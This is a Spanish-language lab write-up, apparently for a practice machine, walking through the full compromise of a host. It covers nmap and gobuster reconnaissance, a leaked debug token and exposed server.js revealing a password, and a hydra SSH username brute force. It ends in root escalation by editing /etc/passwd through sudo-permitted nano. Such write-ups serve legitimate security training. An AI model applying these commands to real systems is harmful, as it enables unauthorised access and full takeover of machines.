 ## 1. Reconocimiento Inicial de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache httpd 2.4.61`: El puerto 80 está abierto y ejecuta un servidor web Apache.
*   `3000/tcp open http Node.js Express framework`: El puerto 3000 está abierto y ejecuta una aplicación Node.js Express. Esto es interesante, ya que las aplicaciones web a menudo contienen vulnerabilidades.
*   `5000/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 5000 está abierto y ejecuta OpenSSH. Es importante notar que el puerto SSH no es el estándar (22), lo que podría indicar una configuración personalizada.

## 2. Enumeración Web y Descubrimiento de Información Sensible

La presencia de un servidor web Apache y una aplicación Node.js en el puerto 3000 sugiere que la enumeración web será crucial.

### 2.1. Inspección de la Página Web (Puerto 80)

Al visitar la página web en el puerto 80 (`http://<IP_DEL_OBJETIVO>`), encontramos un botón que no funciona. Esto es una pista para inspeccionar el código fuente de la página.

### 2.2. Análisis del Código Fuente y Archivo JavaScript

Al inspeccionar el código fuente de la página web, encontramos un enlace a un archivo JavaScript: `http://<IP_DEL_OBJETIVO>/authentication.js`. Accedemos a este archivo y encontramos una función `autenticate()` que contiene un mensaje en la consola:

```javascript
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Este mensaje nos indica que hay un endpoint `/recurso/` que requiere un token de autenticación, y nos proporciona el token: `tokentraviesito`.

### 2.3. Fuzzing Web (Gobuster)

Aunque ya tenemos una pista importante, realizar un fuzzing de directorios con `gobuster` es una buena práctica para descubrir otras rutas o archivos ocultos en el servidor web.

```bash
gobuster dir -u http://<IP_DEL_OBJETIVO>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

**Resultados Relevantes:**

*   `/backend` (Status: 301) [--> `http://<IP_DEL_OBJETIVO>/backend/`]: Este directorio es redirigido, lo que indica que contiene contenido.

Al explorar `http://<IP_DEL_OBJETIVO>/backend/`, encontramos una lista de archivos, incluyendo `server.js`.

## 3. Análisis del Código del Servidor (server.js)

El archivo `server.js` es el código fuente de la aplicación Node.js Express. Analizarlo nos dará una comprensión más profunda de cómo funciona la aplicación y cómo podemos explotarla.

### 3.1. Contenido de `server.js`

```javascript
const express = require(\'express\');
const app = express();

const port = 3000;

app.use(express.json());

app.post(\'/recurso/\', (req, res) => {
    const token = req.body.token;
    if (token === \'tokentraviesito\') {
        res.send(\'lapassworddebackupmaschingonadetodas\');
    } else {
        res.status(401).send(\'Unauthorized\');
    }
});

app.listen(port, \'0.0.0.0\', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

**Análisis del Código:**

*   La aplicación escucha en el puerto 3000.
*   Define una ruta POST `/recurso/`.
*   Verifica si el `token` enviado en el cuerpo de la solicitud (`req.body.token`) es igual a `tokentraviesito`.
*   Si el token es correcto, envía como respuesta la cadena `lapassworddebackupmaschingonadetodas`.

¡Hemos encontrado la contraseña! La contraseña es `lapassworddebackupmaschingonadetodas`.

## 4. Acceso Inicial (SSH)

Ahora que tenemos una contraseña, necesitamos un nombre de usuario para intentar acceder vía SSH (puerto 5000).

### 4.1. Fuerza Bruta SSH para Obtener el Usuario

Utilizamos `hydra` para realizar un ataque de fuerza bruta, pero esta vez, con la contraseña que ya conocemos, intentaremos adivinar el nombre de usuario. Usaremos un diccionario de nombres de usuario comunes.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://<IP_DEL_OBJETIVO>:5000 -s 22 -t 64
```

**Resultado Clave:**

```bash
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
```

Esto nos proporciona el nombre de usuario: `lovely`.

### 4.2. Conexión SSH

Con las credenciales obtenidas (`lovely:lapassworddebackupmaschingonadetodas`), nos conectamos al servidor SSH.

```bash
ssh -p 5000 lovely@<IP_DEL_OBJETIVO>
# Contraseña: lapassworddebackupmaschingonadetodas
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `lovely`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `lovely` con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(ALL) NOPASSWD: /usr/bin/nano`

Esto significa que el usuario `lovely` puede ejecutar el editor de texto `nano` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Manipulación de `/etc/passwd` para Obtener Root

El archivo `/etc/passwd` contiene información sobre los usuarios del sistema. La segunda columna de cada entrada (separada por dos puntos `:`) suele contener una `x` si la contraseña está almacenada en `/etc/shadow`. Si eliminamos la `x` para el usuario `root`, podemos iniciar sesión como `root` sin contraseña.

1.  **Editar `/etc/passwd` con `nano` como `root`:**

```bash
sudo -u root /usr/bin/nano /etc/passwd
```

Dentro de `nano`, busca la línea que comienza con `root:` y elimina la `x` después del primer dos puntos. La línea debería cambiar de `root:x:0:0:root:/root:/bin/bash` a `root::0:0:root:/root:/bin/bash`.

2.  **Guardar y Salir:** Guarda los cambios (Ctrl+O, Enter) y sal de `nano` (Ctrl+X).

3.  **Cambiar a `root`:** Ahora, puedes usar el comando `su root` (o simplemente `su`) y no te pedirá contraseña.

```bash
su root
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```

